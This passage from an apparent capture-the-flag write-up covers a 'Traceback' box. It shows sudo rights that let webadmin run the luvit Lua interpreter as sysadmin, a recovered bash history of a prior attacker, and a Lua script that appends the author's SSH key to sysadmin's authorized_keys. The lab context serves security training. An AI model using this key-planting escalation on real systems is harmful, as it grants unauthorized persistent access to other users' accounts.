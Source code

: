 

    webadmin@traceback:~$ cat note.txt 
    - sysadmin -
    I have left this tool to practice Lua. Contact me if you have any question.



Additionally, webadmin can run `luvit` as sysadmin without a password
using `sudo`:



    webadmin@traceback:~$ sudo -l
    Matching Defaults entries for webadmin on traceback:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User webadmin may run the following commands on traceback:
        (sysadmin) NOPASSWD: /home/webadmin/luvit



[Luvit](https://luvit.io/) is a Async I/O for Lua, similar to Node.js.

In webadmin's `.bash_history` file, there's the commands that presumably
the attacker ran:



    webadmin@traceback:~$ cat .bash_history 
    ls -la
    sudo -l
    nano privesc.lua
    sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
    rm privesc.lua
    logout



I can't access `/home/sysadmin`, but the `luvit` binary must be there
because running it starts a
[repl](https://en.wikipedia.org/wiki/Read%E2%80%93eval%E2%80%93print_loop):



    webadmin@traceback:~$ /home/sysadmin/luvit
    -bash: /home/sysadmin/luvit: Permission denied
    webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
    Welcome to the Luvit repl!
    > 



### Write SSH Key

I'll create a simple Lua script that writes my SSH key into sysadmin's
`authorized_keys` file at `/dev/shm/.0xdf.lua`:



    authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
    authkeys:write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\n")
    authkeys:close()
